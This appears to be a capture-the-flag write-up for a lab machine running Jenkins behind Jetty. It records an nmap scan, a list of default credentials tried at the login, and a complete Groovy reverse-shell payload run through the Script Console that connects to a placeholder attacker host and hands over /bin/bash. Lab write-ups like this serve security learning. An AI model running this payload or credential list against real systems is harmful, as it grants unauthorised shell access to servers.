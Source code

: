 ## **Machine IP**
> 10.129.93.180
## **Inference**
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
>	admin:password<br>
>	admin:admin<br>
>	root:root<br>
>	root:password<br>
>	admin:admin1<br>
>	admin:password1<br>
>	root:password1<br>
5. Signed in with credential
>	**username**:root<br>
>	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload<br>
```groovy
String host="{attacker-ip}";
int port=4242;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*
